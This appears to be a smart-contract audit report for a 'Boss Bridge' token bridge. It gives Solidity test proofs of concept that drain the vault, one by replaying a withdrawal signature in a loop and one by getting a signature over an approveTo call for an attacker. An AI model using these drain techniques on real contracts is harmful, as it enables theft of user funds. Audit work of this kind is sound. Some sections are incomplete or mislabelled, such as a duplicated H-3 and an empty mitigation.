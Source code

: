 # BOSS BRIDGE AUDIT REPORTS

# High

# [H-1] Signature replay attack at `L1BossBridge::sendToL1`

**Description:** Message signing do not contain single-use mechanism such `nonce` or `deadlines`. Hence, signatures can be used `n` number of times in order to execute `messages`.

**Impact:** Transfer signed by Signers can be executed by anyone effectively sending or withdrawing `n` number of times identical transaction as long as `L1BossBridge` owns or manages enough `L1Tokens` on `L1Vault`.

**Proof of Concept**

- Signatures are not one-usage and there's no mechanism from L1 to determine that user locked and unlocked tokens;

```javascript
   function testSignatureReplayAttacks() public {
        uint256 amount = 1 ether;

        uint256 vaultInitialBalance = 100e18;
        uint256 userInitialBalance = token.balanceOf(user);
        deal(address(token), address(vault), vaultInitialBalance);

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(user, amount),
            operator.key
        );

        while (token.balanceOf(address(vault)) > 0) {
            tokenBridge.withdrawTokensToL1(user, amount, v, r, s);
        }

        uint256 userEndingBalance = token.balanceOf(user);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(userEndingBalance, vaultInitialBalance + userInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommended Mitigation**

- usage of nonces to enable one-usage signatures
- usage of deadlines to allow signature validity within a time range.

```diff
    function _getTokenWithdrawalMessage(
        address recipient,
        uint256 amount
    ) private view returns (bytes memory) {
+       nonce += 1;
        return
            abi.encode(
+               nonce,
                address(token), // target
                0, // value
                abi.encodeCall(
                    IERC20.transferFrom,
                    (address(vault), recipient, amount)
                ) // data
            );
    }
```

# [H-2] Any user is able to call `Bossbridge -> Vault::ApproveTo` to take control over an amount of tokens, in order to drain vault balance.

**Description:** There's no regulation about what kind of messages can be signed, it's just a request so as to get a valid signature to redeem L2 tokens into L1 `knowing that exists a valid Deposit event on L1`, users can leverage it to request signatures over any kind of message.

**Impact:** the following vulnerabilty catches the attention of malicious users due to the facility oo draining all funds in a vault.

**Proof of concept:**

```javascript

    function testMaliciousMessageSignatures() public {
        uint256 vaultInitialBalance = 100e18;
        deal(address(token), address(vault), vaultInitialBalance);

        address attacker = makeAddr("attacker");

        bytes memory message = abi.encode(
            address(vault),
            0,
            abi.encodeCall(vault.approveTo, (attacker, vaultInitialBalance))
        );

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        tokenBridge.sendToL1(v, r, s, message);
        vm.prank(attacker);
        token.transferFrom(address(vault), attacker, vaultInitialBalance);

        uint256 attackerBalance = token.balanceOf(attacker);
        uint256 vaultEndingBalance = token.balanceOf(address(vault));

        assertEq(attackerBalance, vaultInitialBalance);
        assertEq(vaultEndingBalance, 0);
    }
```

**Recommened Mitigation:**

# [H-3] Users might charge with high gas consumption during a `Withdraw` to L1 from L2, making `BossBridge` to spend more ether in gas as the transfer occurs.

**Description:** while requesting withdraws, `BossBridge` has to perform a transfer from `Vault` to a recipient, this operation is an external call, recipients might implement complex logic on receiving tokens.

# [H-3] CREATE opcode is not supported on ZkSync L2, unablaing token deployments.

**Description:** ZkSync era is not fully compatible with EVM, as specified in their documentation, the usage of `CREATE` opcode differs from `EVM::CREATE`.

**Impact:**

```javascript
    function deployToken(
        string memory symbol,
        bytes memory contractBytecode
    ) public onlyOwner returns (address addr) {
        assembly {
           @> addr := create(
                0,
                add(contractBytecode, 0x20),
                mload(contractBytecode)
            )
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }
```

**Recomended Mitigation:**

- usage of `new`keyword to deploy instead of low level call to `create`.

```diff
    function deployToken(
        string memory symbol,
        bytes memory contractBytecode
    ) public onlyOwner returns (address addr) {
-        assembly {
-            addr := create(
-                0,
-                add(contractBytecode, 0x20),
-                mload(contractBytecode)
-            )
-        }
+       L1Token token = new L1Token();
-       s_tokenToAddress[symbol] = addr;
+       s_tokenToAddress[symbol] = address(token);
-       emit TokenDeployed(symbol, addr);
+       emit TokenDeployed(symbol, address(token));
    }
```
